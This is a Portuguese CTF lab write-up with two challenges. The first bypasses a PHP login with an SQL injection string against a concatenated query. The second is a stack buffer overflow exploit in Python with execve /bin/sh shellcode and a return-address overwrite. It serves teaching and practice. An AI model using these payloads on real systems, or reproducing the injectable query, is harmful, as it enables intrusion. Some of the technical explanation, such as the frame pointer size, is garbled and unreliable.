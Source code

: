 # CTF - WEEK 8[](url)

## Challenge #1

**1.** Ao analisar o ficheiro _index.php_, podémos verificar que este continha uma linha onde é possível ocorrer um vulnerabilidade. 

![Terminal print - index.php file](CTFs/Img/Semana8-Desafio1/1.index_php.png)

- Podemos verificar que podemos inserir, na linha em baixo no campo $username, uma subquery que nos permita fazer login com a conta do administrador.

```php
$username = $_POST['username'];
$password = $_POST['password'];
               
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

**2.** Sendo assim, no campo _username_ no servidor poderemos colocar a seguinte _string_:

```sql
admin'; --
```
![Terminal print - login page](CTFs/Img/Semana8-Desafio1/2.login.png)


**3.** Ao instroduzir a _stirng_ referida em cima, podemos verificar que a query do ficheiro vai ficar:

```sql
SELECT username FROM user WHERE username = 'admin'; -- ".$username."' AND password = '".$password."'";
```

- Assim, conseguimos fazer "login" na conta do administrador e obter a flag.

![Terminal print - flag result](CTFs/Img/Semana8-Desafio1/3.result.png)

## Challenge #2

- Tendo uma stack com permissão de execução e um buffer overflow. O que será que se pode fazer?

**1.** Ao executar o ficheiro "program" (usando o _checksec_), podemos verificar que este imprime na shell o endereço da variável buffer. Iremos usar este valor mais tarde.

![Terminal print - execution of program file](CTFs/Img/Semana8-Desafio2/1.execute_program.png)

![Terminal print - buffer address](CTFs/Img/Semana8-Desafio2/2.gdb_buffer_address.png)

**2.** Ao usar o ficheiro _exploit-example.py_ de outros CTFs, podemos adaptar o mesmo para que funcione no CTF desta semana. <br>Explicação do código (do ficheiro "exploit-example.py"):

**2.1.** Começamos por retirar o valor do endereço do buffer que foi impresso no passo 1) (usamos Regex para obter o endereço de memória).

```py
txt = p.recvuntil(b":").decode()
addr = re.search('0x(.+?).\n', txt).group(1)
```

**2.2.** Transformar o código hexadecimal (corresponde à shell) num array de bytes.

```py
buf = bytearray.fromhex(addr)
buf.reverse()
```

**2.3.** Criar o frame pointer (váriavel "fp"). Sabemos que o frame pointer encontra-se na stack logo a seguir às variáveis locais. Este também tem um tamanho de 32 bits (ou 8 bytes) (o tamanho do frame pointer depende da arquitetura da máquina). Sendo assim, criamos um número hexadecimal constituído por oito 0's em hexadecimal.

![drawing - stack memory](CTFs/Img/Semana8-Desafio2/4.stack.png)

```py
shellcode = bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
fp = bytearray.fromhex("0"*8)
```

**2.4.** Criar a "string" final que será enviada para o exploit.

```py
finalString = b"a"*77 + fp*2 + buf
```

**2.5.** Mandar esta string para a shellcode. Para conseguirmos fazer isso teremos de colocar a string a seguir ao código hexadecimal referente à shell.

```py
p.sendline(shellcode + finalString)
```

### Conclusão

Tentamos fazer overwrite do endereço de retorno da função colocando o código referente à shellcode (shellcode). Quando este retornar este enderenço na função, vai executar o código que estiver nesse endereço, ou seja, vai executar as instruções na shellcode (mas em código).
